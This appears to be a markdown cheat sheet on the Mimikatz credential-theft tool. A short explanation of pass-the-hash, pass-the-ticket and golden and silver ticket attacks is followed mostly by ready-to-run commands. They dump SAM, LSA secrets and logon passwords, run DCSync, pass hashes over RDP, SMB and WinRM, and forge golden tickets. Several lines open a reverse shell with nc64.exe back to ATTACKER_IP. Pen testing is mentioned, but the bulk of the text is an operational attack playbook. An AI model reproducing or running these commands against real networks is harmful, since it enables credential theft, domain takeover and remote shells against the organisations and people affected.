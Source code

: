 
## What is Mimikatz?

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is an open-source application that allows users to view and save authentication credentials such as [Kerberos tickets](https://www.varonis.com/blog/kerberos-authentication-explained/?hsLang=en). The toolset works with the current release of Windows and includes a collection of different network attacks to help assess vulnerabilities.

Attackers commonly use Mimikatz to steal credentials and escalate privileges because in most cases, endpoint protection software and antivirus systems will not detect or delete the attack. Conversely, [pen testers](https://www.varonis.com/blog/master-fileless-malware-penetration-testing/?hsLang=en) use Mimikatz to detect and exploit vulnerabilities in your networks so you can fix them.

## What can Mimikatz do?

![what-can-mimikatz-do-2x-png](https://info.varonis.com/hs-fs/hubfs/what-can-mimikatz-do-2x-png.png?width=1600&name=what-can-mimikatz-do-2x-png.png)

Mimikatz originally demonstrated how to exploit a single vulnerability in the Windows authentication system. Now it exposes several different kinds of vulnerabilities; Mimikatz can perform credential-gathering techniques such as:

-   **Pass-the-hash**: Windows used to [store password data in an NTLM hash](https://www.varonis.com/blog/windows-10-authentication-the-end-of-pass-the-hash/?hsLang=en). Attackers use Mimikatz to pass that exact hash string to the target computer to log in. Attackers don’t even need to crack the password — they just need to use the hash string as-is. It’s the equivalent of finding the master key to a building on the lobby floor. You need just that one key to get into all the doors.
-   **Pass-the-ticket**: Newer versions of Windows store password data in a construct called a ticket. Mimikatz provides functionality for a user to pass a Kerberos ticket to another computer and log in with that user’s ticket. It’s very similar to the pass-the-hash method.
-   **Overpass-the-hash (pass-the-key)**: Yet another flavor of the pass-the-hash, but this technique passes a unique key obtained from a domain controller to impersonate a user.
-   **Kerberoast golden tickets**: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A [golden ticket](https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/?hsLang=en) provides you with non-expiring domain admin credentials to any computer on the network.
-   **Kerberoast silver tickets**: Another pass-the-ticket, but a [silver ticket](https://www.varonis.com/blog/kerberos-attack-silver-ticket/?hsLang=en) takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a ticket-granting server (TGS) ticket, and a user can use that ticket to authentic to service accounts on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip past any safeguards.
-   **Pass-the-cache**: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.


## Commands

## Alternate Authentication (PtH)
```
mimikatz # privilege::debug
mimikatz # token::elevate

# Local Users
lsadump::sam

# AD Users
sekurlsa::msv

#Setup Lisener (Attacking Machine)
nc -lvnp PORT

# Launch Reverse Shell (Using nc64 ont the other machine, you can use other technique to launch a reverse shell (Example smb/psexec in msfconsole))
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTLM_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```
- Other Technique to pass the hash
	RDP      --> xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
	SMB      --> psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
	WinRM  -->evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH


## Alternate Authentication (PtT)
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

# We can inject the tickets into the current session
kerberos::ptt [0;427fcd5]-2-0-40e10000-USER@MACHINE_DOMAIN (Change the tickets)

# Check the if you have the tiket permission
C:\> klist
```


## Alternate Authentication (PtK)
```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

#Setup Lisener (Attacking Machine)
nc -lvnp PORT
```
b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65
**If we have the RC4 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES128 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES256 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

## Dump LSAdump
```
mimikatz # token::elevate
mimikatz # lsadump::secrets
```


## All Commands

```Terminal
#general
privilege::debug
log
log customlogfilename.log

#sekurlsa
sekurlsa::logonpasswords
sekurlsa::logonPasswords full
sekurlsa::tickets /export
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

#kerberos
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi

#crypto
crypto::capi
crypto::cng
crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE
crypto::keys /export
crypto::keys /machine /export

#vault & lsadump
vault::cred
vault::list
token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert
lsadump::dcsync /user:domain\krbtgt /domain:lab.local

#pth
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

#ekeys
sekurlsa::ekeys

#dpapi
sekurlsa::dpapi

#minidump
sekurlsa::minidump lsass.dmp

#ptt
kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi

#golden/silver
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi
```
